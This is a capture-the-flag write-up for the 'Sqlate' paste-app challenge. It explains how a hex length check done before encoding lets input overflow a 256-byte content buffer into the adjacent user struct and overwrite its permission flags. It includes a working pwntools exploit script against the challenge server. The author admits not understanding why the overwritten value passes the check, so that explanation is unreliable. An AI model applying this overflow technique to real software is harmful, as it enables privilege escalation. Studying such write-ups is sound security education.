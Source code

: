 # Sqlate

<p align="center">
  <img src="../../images/logo.jpg" alt="Dombusters" width="25%">
</p>

## Description
World‘s most secure paste app.

## Solution
We get the src code for the app. 
The goal is to trigger the function `action_sys` which will print the flag. 
```
void action_sys() {
    system("/usr/bin/cat flag");
}
```
Checking the programs menu we can see that there is a permission check before allowing the call to this function.
```
case '7': {
    if (!check_permissions(permission_root)) continue;

    action_sys();
    continue;
}
```
The function `check_permissions` checks the current user flag against the perms provided in the  call.  (Added some debug printf's, to see what the current perms are)
```
bool check_permissions(const int perms) {
    printf("Current Perms: %ld\n", current_user.flags);
    printf("Perms: %d\n", perms);
    printf("Current Userid: %d\n", current_user.userId);
    if ((current_user.flags & perms) != perms) {
        printf("You don't have permissions to perform this action!\n");
        if (current_user.userId == -1) {
            printf("You might need to login to unlock this.\n");
        }
        return false;
    }
    return true;
}
```
The intended way of the program is to login as admin with the randomly generated admin password to get those root privs. But since we have no way of guessing or dumping this admin password we need to find a different way to modify the privs. This leaves us with 4 functions. 
* action_create --> Creates an entry in the sqlite db
* action_update --> Updates an entry in the sqlite db
* action_info --> Shows a specific entry
* action_list --> Lists all entries

The create action just adds a new entry to the sqlite db. Even if we could somehow get an sqli it woudn't really help us much, since only the entries are managed there and not the users or permissions. 

The update code on the other hand looks interesting. Besides selecting which field (Language/Content) of the entry we want to edit we can also decide in what encoding the content should be stored.
```
printf(
    "Which modifier?\n"
    "1) None\n"
    "2) Hex\n"
    "3) Base64\n"
    "\n"
    ">"
);
```
For every encoding there is a different length check to prevent buffer overflows. Small issue with that, the length check for the hex encoding has a bug. 
```
if (c == '3') {
    char* temp = base64_encode(line_buffer);
    if (strlen(temp) > 255) err(EXIT_FAILURE, "Attempted to overflow!");
    strcpy(line_buffer, temp);
    free(temp);
} else if (c == '2') {
    if (strlen(line_buffer) > 192) err(EXIT_FAILURE, "Attempted to overflow!");
}
```
The line_buffer length is checked before its converted to HEX, therefore we can write a total of 192*2=384 bytes. But our buffer for the content only has a size of 256 bytes. 
```
struct paste {
    int rowId;
    char title[256];
    char language[256];
    char content[256];
};
```
Luckily for us the user struct of the current_user is created just below the paste struct ion the buffer. Therefore if we overwrite the content in the paste struct we can write into the current_user, which also stores the users permission flags. 
```
struct user {
    int userId;
    uint64_t flags;
    char username[256];
    char password[256];
};
```
Therefore we can control the perms the user has.
Here is the part where im not entirely sure why my exploit works. Since I did overwrite the perms flag with the default paste content terminator A0. Which results in the int perms of 16688 where the root perms should be int 256. But somehow the check_permissions still approves of my rights and gives me the flag.

![Memory Overwrite](./image.png) 
exploit.py
```
from pwn import *

binary = './vuln'
context.binary = binary
# Local debugging
#p = gdb.debug(binary, '''
#    continue
#''')
p = remote('sqlate.chal.irisc.tf', 10000)  # Connect to the remote CTF instance

def send_menu_choice(choice):
    p.recvuntil(b'> ')
    p.sendline(str(choice).encode())

def create_paste(title, language, content):
    send_menu_choice(1)  
    p.recvuntil(b"Enter Title: ")
    p.sendline(title)
    p.recvuntil(b"Enter Language: ")
    p.sendline(language)
    p.recvuntil(b"Enter Content: ")
    p.sendline(content)

def update_paste(title, content, modifier):
    send_menu_choice(2)  
    p.recvuntil(b">")   
    p.sendline(b"2")   
    p.recvuntil(b">")   
    p.sendline(str(modifier).encode()) 
    p.recvuntil(b"Enter content: ")
    p.sendline(content)  
    p.recvuntil(b"Enter Title: ")
    p.sendline(title)  

def list_all():
    send_menu_choice(4)


raw_payload_D = b"D" * 146  

log.info("Creating initial paste...")
create_paste(b"4", b"4", b"D")

log.info("Updating paste with malicious payload...")
update_paste(b"4", raw_payload_D, 2)
list_all()

send_menu_choice(7)
p.interactive()
```

---
**Dombusters**: _Writeup written by [Sir_X](https://x.com/Sir_X72563?t=J2E1FMrckYMcUU5MNmOLpw&s=09)_